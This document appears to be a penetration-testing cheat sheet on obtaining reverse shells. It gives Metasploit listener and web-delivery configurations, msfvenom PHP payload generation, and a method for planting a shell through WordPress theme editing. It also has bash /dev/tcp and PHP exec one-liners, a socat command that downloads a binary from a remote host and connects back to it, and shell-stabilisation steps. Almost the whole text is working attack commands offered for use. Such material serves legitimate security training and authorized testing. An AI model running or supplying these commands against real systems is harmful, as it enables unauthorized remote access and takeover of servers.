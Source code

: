 # Reverse Shell
## Metasploit
### msfconsole
- Get meterpreter session with SSH login
```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 0.0.0.0
set username user
set password pass
run
sessions -u 1
- Meterpreter listener
```bash
$ msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload linux/x64/meterpreter/reverse_tcp
```
- PHP Web Delivery
```bash
$ msfconsole
use exploit/multi/script/web_delivery
set payload php/meterpreter/reverse_tcp
set target PHP
set lhost tun0
run
```

### msfvenom payload
- PHP Meterpreter
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Payload
___
### PHP
- Get reverse shell from Wordpress admin dashboard using themes edition
```
Login as admin, and edit a theme's php file.
Replace content with Pentest Monkey's php-reverse-shell
Browse file : http://hostname/wordpress/wp-content/themes/themename/file.php
```

- Basic PHP command line to open a shell
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");
```

## OS Command
- Bash command to open shell
```sh
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
```

- Socat Shell
```sh
wget -q 10.6.77.211/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.77.211:443
```

# Stabilizing shell
___
- Upgrade shell to bash/pty

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 50 columns 190
```

- If Ctrl-Cmd are needed (doesnt work well with meterpreter shell)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Then Ctrl-Z to background revshell
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 50 columns 190
```

## Links
___
### Guides
- https://www.hackingarticles.in/wordpress-reverse-shell/
- https://github.com/pentestmonkey/php-reverse-shell
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://netsec.ws/?p=331
- https://gtfobins.github.io/

### Writeups
- 
